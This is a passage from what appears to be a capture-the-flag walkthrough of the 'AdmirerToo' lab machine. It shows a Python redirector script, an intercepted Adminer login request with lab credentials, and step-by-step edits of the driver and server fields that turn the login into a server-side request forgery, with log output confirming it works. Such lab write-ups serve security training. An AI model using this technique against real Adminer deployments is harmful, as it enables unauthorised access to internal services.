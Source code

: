 ```python redirector.py
		self.send_header('Location', sys.argv[2])  
		self.end_headers()
		
HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
```

Start the redirector script:
```bash
$ python3 redirector.py 80 http://127.0.0.1
```

For this to work, we need to capture the request of logging into the DB in Burp Suite. Make sure not to send this to repeater.

Analyse the login POST request:
```
POST /?server=localhost HTTP/1.1
Host: db.admirer-gallery.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://db.admirer-gallery.htb/?server=localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 162
Origin: http://db.admirer-gallery.htb
Connection: close
Cookie: adminer_sid=aqj7ovn7kmpnjuce2nkuk246tb; adminer_key=ed3272eb38f41555a6213568a05fb352; adminer_version=4.8.1; adminer_permanent=
Upgrade-Insecure-Requests: 1

auth%5Bdriver%5D=server&auth%5Bserver%5D=localhost&auth%5Busername%5D=admirer_ro&auth%5Bpassword%5D=1w4nn4b3adm1r3d2%21&auth%5Bdb%5D=admirer&auth%5Bpermanent%5D=1
```

This is a default request. If we change `Auth Server` value from `localhost` to our `Kali IP address` and forward the request to server, then we’d get this error:
```
Connection refused
```

So, we need to edit `Auth Driver` value and `Auth Server` value. According to POC PDF, we need to modify auth drive value to `elasticsearch` and auth server value as our attacking machine’s IP address (Kali Linux).
After changing the both values, I couldn’t get a hit on our python script. Then I looked into the source of `Adminer` at https://github.com/vrana/adminer/tree/master/adminer/drivers:

As you can see the source code, the driver name is just `elastic` not `elasticsearch`. This is the reason it didn’t work. Let’s change both values one more time.
![[admirertoo/images/image2.png]]

We get a hit:
```bash
$ python3 redirector.py 80 'http://127.0.0.1'
10.10.11.137 - - [24/Mar/2022 15:13:24] "GET / HTTP/1.0" 302 -
10.10.11.137 - - [24/Mar/2022 15:13:24] "GET / HTTP/1.0" 302 -
```
